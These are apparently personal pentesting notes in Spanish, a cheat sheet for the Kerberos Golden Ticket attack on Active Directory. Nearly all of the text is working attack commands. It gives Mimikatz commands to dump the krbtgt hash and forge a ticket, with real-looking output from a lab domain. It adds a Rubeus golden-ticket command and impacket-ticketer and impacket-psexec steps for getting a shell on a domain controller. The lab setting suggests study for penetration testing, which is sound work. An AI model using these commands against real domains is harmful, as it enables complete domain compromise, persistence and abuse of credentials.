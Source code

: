 # Golden Ticket Attack

- Cuando comprometemos la cuenta krbtgt, ya owneamos el dominio.
- Podemos solicitar acceso a cualquier recurso o sistema dentro del dominio.
- Golden tickets == Completar acceso a cualquier maquina.

## Mimikatz
- `privilege::debug`
- `lsadump::lsa /inject /name:krbtgt`
- Ahora generamos el golden ticket:
    - `kerberos::golden /User:Administrator /domain:DOMAIN.local /sid:SID /krbtgt:NTLM /id:500 /ptt`
    - el `/id:500` significa el RID de administrador de maximos privilegios.
- `misc::cmd` para abrir un command prompt privilegiado

### Ejemplo mimikatz

```
kerberos::golden /user:administrator /domain:painters.htb /sid:S-1-5-21-1470357062-2280927533-300823338 /krbtgt:4b6af2bf64714682eeef64f516a08949 /sids:S-1-5-21-2734290894-461713716-141835440-4601 /ptt
mimikatz # User      : administrator
Domain    : painters.htb (PAINTERS)
SID       : S-1-5-21-1470357062-2280927533-300823338
User Id   : 500
Groups Id : *513 512 520 518 519 
Extra SIDs: S-1-5-21-2734290894-461713716-141835440-4601 ; 
ServiceKey: 4b6af2bf64714682eeef64f516a08949 - rc4_hmac_nt      
Lifetime  : 06/03/2025 13:59:25 ; 04/03/2035 13:59:25 ; 04/03/2035 13:59:25
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'administrator @ painters.htb' successfully submitted for current session

```

## Rubeus
- `.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt`

## Golden ticket con impacket
- `impacket-ticketer -nthash NT-HASH -domain DOMAIN.LOCAL -domain-sid DOMAIN-SID -extra-sid EXTRA-SID hacker`
- Exportamos la variable del ticket kerberos: `export KRB5CCNAME=hacker.ccache`
- Utilizamos psexec de impacket para entrar con este ticket `impacket-psexec DOMAIN.LOCAL/hacker@DC01.DOMAIN.LOCAL -k -no-pass -target-ip DC-IP`